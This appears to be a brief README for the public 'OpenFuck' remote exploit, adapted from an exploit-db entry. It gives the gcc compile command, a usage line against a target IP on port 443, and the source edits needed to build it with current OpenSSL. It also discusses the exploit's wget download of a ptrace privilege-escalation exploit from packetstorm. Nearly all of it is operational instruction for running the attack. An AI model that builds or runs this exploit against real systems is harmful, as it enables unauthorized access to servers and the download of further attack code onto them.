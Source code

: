 Compile command:

gcc -o OpenFuck ./openfuck.c -lcrypto

Use command:

./OpenFuck 0x73 192.168.15.222 443


Original Exploit Location:

https://www.exploit-db.com/exploits/764/

Changes from original:

"#include < openssl/rc4 DOT h >"
"#include < openssl/md5 DOT >"

Add "const" to line 961:

const unsigned char *p, *end;

This the following wget command fails, but non-root (apache) access is still achievable

wget http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c


